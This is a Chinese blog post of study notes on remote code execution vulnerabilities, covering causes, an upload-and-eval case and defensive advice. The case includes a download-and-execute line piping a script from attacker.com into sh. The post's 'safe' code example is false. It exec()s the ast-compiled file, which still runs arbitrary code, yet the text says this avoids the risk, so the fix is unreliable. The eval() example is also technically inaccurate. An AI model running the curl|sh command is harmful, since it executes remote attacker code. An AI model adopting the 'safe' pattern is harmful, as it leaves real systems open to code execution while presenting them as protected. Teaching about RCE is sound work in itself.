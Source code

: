 ```yaml
---
layout: post
title: 远程代码执行攻击与防御
date: 2020-01-15 09:30
tags: web安全
excerpt: "本文介绍web安全漏洞-远程代码执行攻击与防御。"
toc: true
---	
```


# 远程代码执行（RCE）漏洞学习笔记

## 什么是远程代码执行（RCE）漏洞

远程代码执行（Remote Code Execution, RCE）漏洞是一种严重的安全漏洞，攻击者通过这种漏洞可以在目标服务器上执行任意代码。这种漏洞通常出现在对用户输入处理不当的情况下，攻击者可以利用该漏洞获取服务器权限，执行恶意操作，进一步控制整个系统。

## RCE 漏洞的技术细节

RCE 漏洞的成因多种多样，以下是一些常见的成因：

- **输入验证不严**：未对用户输入进行严格的验证和过滤。
- **动态代码执行**：使用了不安全的代码执行函数，如 `eval()`、`exec()` 等。
- **代码注入**：通过输入恶意代码注入到程序执行流中。
- **依赖库漏洞**：第三方库中存在 RCE 漏洞，被攻击者利用。

## RCE 漏洞案例

### 案例背景

某 Web 应用允许用户上传文件，并在上传后执行对文件的处理。然而，该应用在处理文件时使用了不安全的 `eval()` 函数，对用户上传的文件内容进行处理，导致了 RCE 漏洞。

### 漏洞利用

攻击者上传一个包含恶意代码的文件，如下所示：

```python
# malicious.py
import os
os.system('curl http://attacker.com/malicious.sh | sh')
```

在文件上传后，Web 应用执行以下代码：

```python
# vulnerable_code.py
file_content = open('uploaded_file.py').read()
eval(file_content)
```

由于使用了 eval()，文件中的恶意代码被执行，导致攻击者控制了服务器。

## 防御手段
### 防御 RCE 漏洞的主要方法包括：

- 输入验证：对用户输入进行严格的验证和过滤，避免恶意代码注入。
- 避免使用不安全函数：尽量避免使用 eval()、exec() 等不安全的代码执行函数。
- 使用安全库：使用安全的库和框架，避免依赖存在漏洞的第三方库。
- 最小权限原则：确保应用运行在最小权限的环境中，降低被利用后的危害。
代码示例
不安全的代码示例
```python
# vulnerable_code.py
file_content = open('uploaded_file.py').read()
eval(file_content)
```
安全的代码示例
```python
# safe_code.py
import ast

def safe_eval(file_path):
    with open(file_path, 'r') as file:
        file_content = file.read()
    tree = ast.parse(file_content, mode='exec')
    exec(compile(tree, filename="<ast>", mode="exec"))

# 使用安全的函数处理上传文件
safe_eval('uploaded_file.py')
```

在安全的代码示例中，使用了 ast 模块来解析并安全地执行代码，避免了直接使用 eval() 带来的风险。

## 总结

远程代码执行（RCE）漏洞是一种极为危险的漏洞，攻击者可以通过该漏洞完全控制受害者的服务器。防御 RCE 漏洞的关键在于严格的输入验证、避免使用不安全的函数、使用安全的库和框架，以及遵循最小权限原则。通过这些措施，可以有效地减少 RCE 漏洞的风险。
